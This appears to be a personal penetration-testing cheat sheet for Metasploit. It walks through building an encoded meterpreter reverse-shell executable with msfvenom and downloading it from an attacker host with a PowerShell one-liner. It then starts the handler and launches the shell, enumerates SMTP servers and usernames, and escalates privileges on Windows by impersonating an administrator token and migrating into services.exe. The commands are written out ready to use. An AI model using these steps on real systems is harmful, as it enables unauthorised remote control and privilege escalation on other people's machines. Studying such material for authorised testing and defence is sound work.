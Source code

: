 ```yaml
---
title: Metasploit
description: Metasploit is a powerful penetration testing and hacking framework designed to secure networks, services, and applications by identifying and exploiting vulnerabilities
---
```


Metasploit can be used in countless ways.  These are just a few things I found interesting and helpful along the way.

## Upgrade Powershell to Metrepreter

If you are able to land a standard powershell connection from the victim machine, you can upgrade the shell to a meterpreter shell.

This payload generates an encoded x86-64 reverse TCP meterpreter payload.
```bash
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.6.57.139 LPORT=1224 -f exe -o upgradeShell.exe
```

After creating this payload, download it to the machine using the same method in the previous step:

```powershell
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.6.57.139:80/upgradeShell.exe','upgradeShell.exe')"
```
Before running this program, ensure the handler is set up in Metasploit:

```bash
use exploit/multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 10.6.57.139 set LPORT 1224 run
```
Once this is running, enter this command to start the reverse shell

```powershell
Start-Process "upgradeShell.exe"
```

## SMTP 
Simple Mail Transfer protocol

Poorly configured or vulnerable mail servers can often provide an initial foothold into a network, but prior to launching an attack, we want to fingerprint the server to make our targeting as precise as possible. We're going to use the "smtp_version" module in MetaSploit to do this. As its name implies, it will scan a range of IP addresses and determine the version of any mail servers it encounters.

Search "smtp_version"
	- auxiliary/scanner/smtp/smtp_version
	- Set RHOSTS
	- Exploit
    
Search "smtp_enum"
	- auxiliary/scanner/smtp/smtp_enum
	- Set USER_FILE /usr/share/wordlists/SecLists/Usernames/top-usernames-shortlist.txt
	- Set RHOSTS
	- Exploit

## Windows Escalation Technique

### SeDebugPrivilege / SeImpersonatePrivilege

If these two privileges(SeDebugPrivilege, SeImpersonatePrivilege) are enabled, wec can use the incognito module in metasploit to exploit this vulnerability.

```bash
use incognito 
```
**You may need to use the `load incognito` command if the previous command doesn't work.**

Check which tokens are available:
```bash
list_tokens -g
```
Use this command to impersonate the Administrator's token if it is available:
```bash
impersonate_token "BUILTIN\Administrators"
```
Even though you have a higher privileged token, you may not have the permissions of a privileged user (this is due to the way Windows handles permissions - it uses the Primary Token of the process and not the impersonated token to determine what the process can or cannot do)

The safest process to pick is the services.exe process. First, use the `ps` command to view processes and find the `PID` of the services.exe process. 

Migrate to this process using the command
```bash
migrate PID-OF-PROCESS
```

